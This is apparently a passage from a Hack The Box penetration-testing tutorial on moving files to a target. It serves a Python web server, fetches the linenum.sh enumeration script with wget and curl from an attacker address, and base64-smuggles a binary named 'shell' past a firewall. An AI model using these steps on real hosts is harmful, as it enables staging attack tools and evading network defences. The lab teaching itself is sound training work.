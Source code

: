 First we need to start a listening server in the directory where the files we want to transfer are.

```shell-session
Bonzo@htb[/htb]$ cd /tmp
Bonzo@htb[/htb]$ python3 -m http.server 8000

Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
```

After that we can transfer the files we need from the other host connecting to the listening python server. 

```shell-session
user@remotehost$ wget http://10.10.14.1:8000/linenum.sh

...SNIP...
Saving to: 'linenum.sh'

linenum.sh 100%[==============================================>] 144.86K  --.-KB/s    in 0.02s

2021-02-08 18:09:19 (8.16 MB/s) - 'linenum.sh' saved [14337/14337]
```

```shell-session
user@remotehost$ curl http://10.10.14.1:8000/linenum.sh -o linenum.sh

100  144k  100  144k    0     0  176k      0 --:--:-- --:--:-- --:--:-- 176k
```

### Using base 64

In some cases, we may not be able to transfer the file. For example,  the remote host may have firewall protections that prevent us from  downloading a file from our machine. In this type of situation, we can  use a simple trick to [base64](https://linux.die.net/man/1/base64) encode the file into `base64` format, and then we can paste the `base64` string on the remote server and decode it. For example, if we wanted to transfer a binary file called `shell`, we can `base64` encode it as follows:

```shell-session
Bonzo@htb[/htb]$ base64 shell -w 0

f0VMRgIBAQAAAAAAAAAAAAIAPgABAAAA...SNIO...lIuy9iaW4vc2gAU0iJ51JXSInmDwU
```

Now, we can copy this `base64` string, go to the remote host, and use `base64 -d` to decode it, and pipe the output into a file:

```shell-session
user@remotehost$ echo f0VMRgIBAQAAAAAAAAAAAAIAPgABAAAA...SNIO...lIuy9iaW4vc2gAU0iJ51JXSInmDwU | base64 -d > shell
```







## [Basic Linux Tools Cheatsheet](../cheatsheets/cheatsheet_basic_linux_tools.md)


[1]: https://en.wikipedia.org/wiki/Tmux	"tmux on wikipedia"